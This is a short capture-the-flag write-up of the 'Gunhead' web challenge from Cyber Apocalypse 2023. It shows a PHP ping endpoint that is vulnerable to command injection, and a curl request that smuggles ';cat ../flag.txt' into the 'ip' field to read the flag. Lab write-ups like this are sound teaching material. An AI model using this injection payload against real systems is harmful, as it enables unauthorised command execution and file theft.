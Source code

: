 # Cyber Apocalypse 2023

## Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.
>
>  Author: N/A
>
> [`web_gunhead.zip`](web_gunhead.zip)

Tags: _web_

## Solution
When inspecting the source code we can see and enpoint `/ping` that allows us to inject shell commands:

```php
public function ping($router)
{
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
}
```

![command](image001.png)

Or by scheduling an curl command:

```bash
$ curl -X POST -H 'Content-Type: application/json' -d'{"ip":"0.0.0.0;cat ../flag.txt"}'  http://159.65.81.51:30542/api/ping
{"output":"PING 0.0.0.0 (0.0.0.0): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"}
```

Flag `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`